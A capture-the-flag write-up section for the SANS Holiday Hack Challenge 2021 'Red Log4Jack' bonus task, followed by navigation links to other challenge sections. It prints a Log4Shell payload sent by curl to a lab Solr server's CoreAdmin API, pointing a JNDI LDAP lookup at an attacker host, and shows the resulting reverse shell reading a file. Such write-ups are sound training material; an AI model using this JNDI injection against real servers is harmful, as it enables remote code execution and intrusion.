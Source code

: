 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 15. Bonus! Red Log4Jack
The objective is to exploit the recent Log4Jack vulnerability.

### 15.0. Hints
**Log4j Discussion with Bishop Fox** - *Icky McGoop*: “Join Bishop Fox for [a discussion](https://bishopfox.com/blog/log4j-zero-day-cve-2021-44228) of the issues involved.”  
**Log4j Red Help Document** - *Icky McGoop*: “Josh Wright's [help document](https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4) for the Red challenge.”

#### 15.1. Solution
We know the vulnerable server is http://solrpower.kringlecastle.com:8983 and that is running Java Solr which is vulnerable to the Log4j attack on its [CoreAdmin APIs](https://solr.apache.org/guide/6_6/coreadmin-api.html). Coding an exploit like the [one presented by Josh Wright](https://solr.apache.org/guide/6_6/coreadmin-api.html), using [marshalsec](https://github.com/mbechler/marshalsec)’s server and then making Solr point to that allowed spawning a reverse shell to the vulnerable server:
```bash
~/web$ curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?var=$\{jndi:ldap://172.17.0.2:1389/exploit\}'
{
  "responseHeader":{
    "status":0,
    "QTime":105},
  "initFailures":{},
  "status":{}}
}
```

The reverse shell:
```bash
listening on [172.17.0.2] 4444 ...
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.2] 50324

cat /home/solr/kringle.txt
The solution to Log4shell is patching.
Sincerly,

Santa
```

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)